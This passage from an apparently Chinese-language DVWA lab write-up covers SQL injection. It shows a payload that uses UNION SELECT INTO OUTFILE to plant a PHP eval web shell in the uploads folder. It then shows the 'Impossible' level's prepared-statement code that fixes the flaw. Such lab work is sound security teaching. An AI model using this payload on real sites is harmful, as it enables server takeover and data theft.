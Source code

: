 
按照套路来就行

写webshell

```bash
1' union select 1,'<?php eval($_POST[a]);?>' into outfile 'E:/phpstudy/phpstudy_pro/WWW/DVWA-master/hackable/uploads/sh.php'#
```



## 2.4 Impossible

本关用预编译语句解决了sql注入问题。

```php

<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database 以下三=三句重点
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

